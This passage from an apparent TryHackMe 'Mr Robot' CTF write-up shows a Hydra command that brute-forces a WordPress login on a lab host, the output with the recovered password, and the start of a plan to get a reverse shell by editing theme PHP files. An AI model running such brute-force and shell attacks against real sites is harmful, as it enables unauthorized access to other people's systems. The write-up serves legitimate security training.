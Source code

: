 3. :S=302 : To tell post-form module to display the credentials only for a _REDIRECTION_. Thus, giving us the valid credentials. 

```bash
$ hydra -T100 -f -l elliot -P www/downloads/cred.dic 10.10.87.211 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&re
direct_to=http%3A%2F%2F10.10.87.211%2Fwp-admin%2F&testcookie=1:S=302"
```
\
**RESULT**
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-12 00:45:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.87.211:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.87.211%2Fwp-admin%2F&testcookie=1:S=302
[80][http-post-form] host: 10.10.87.211   login: elliot   password: ER28-0652
[STATUS] attack finished for 10.10.87.211 (valid pair found)
```
We find valid credentails as **elliot:ER28-0652**. We can now login using this.


### WORDPRESS & REVRESE SHELL

We are greeted with a standard _/wp-admin_ page and we are logged in as Elliot Alderson. We will move around and see if we find something that can get us a shell.

![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Mr_Robot_CTF/images/wp_admin.png)
\
We see that the various php templates of the various _Themes_ in the _Appearance_ section are mutable. On the other hand the _wpscan enumeration__ finds us that these files can then be invoked from going to /wp-content/themes/$THEME_NAME/$PHP_FILE. Enumeration for the win!! \
Note: One can also modify the _Plugin_ section and achieve the reverse shell. I'll leave the work to you. 

